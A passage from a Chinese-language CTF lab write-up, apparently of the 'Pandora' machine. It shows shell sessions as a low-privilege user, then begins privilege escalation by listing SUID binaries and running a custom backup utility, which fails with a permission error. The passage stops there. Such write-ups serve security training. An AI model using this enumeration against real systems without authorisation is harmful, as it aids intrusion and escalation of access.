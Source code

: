   ```
  matt@pandora:/$ cd /home
  cd /home
  matt@pandora:/home$ ls -l
  ls -l
  total 8
  drwxr-xr-x 4 daniel daniel 4096 Jan 31 14:01 daniel
  drwxr-xr-x 2 matt   matt   4096 Dec  7  2021 matt
  matt@pandora:/home$ cd matt
  cd matt
  matt@pandora:/home/matt$ ls -l
  ls -l
  total 4
  -rw-r----- 1 root matt 33 Jan 31 13:57 user.txt 
  ```

## 提权

+ 查找suid位的二进制文件：

  ```
  matt@pandora:/home/matt$ find / -perm -u=s -type f 2>/dev/null
  find / -perm -u=s -type f 2>/dev/null
  /usr/bin/sudo
  /usr/bin/pkexec
  /usr/bin/chfn
  /usr/bin/newgrp
  /usr/bin/gpasswd
  /usr/bin/umount
  /usr/bin/pandora_backup
  /usr/bin/passwd
  /usr/bin/mount
  /usr/bin/su
  /usr/bin/at
  /usr/bin/fusermount
  /usr/bin/chsh
  /usr/lib/openssh/ssh-keysign
  /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /usr/lib/eject/dmcrypt-get-device
  /usr/lib/policykit-1/polkit-agent-helper-1
  ```

+ 发现`/usr/bin/pandora_backup`比较特殊，尝试运行一下，看有什么特殊信息：

  ```
  matt@pandora:/home/matt$ /usr/bin/pandora_backup
  /usr/bin/pandora_backup
  PandoraFMS Backup Utility
  Now attempting to backup PandoraFMS client
  tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
  tar: Error is not recoverable: exiting now
  Backup failed!
  Check your permissions!
  ```
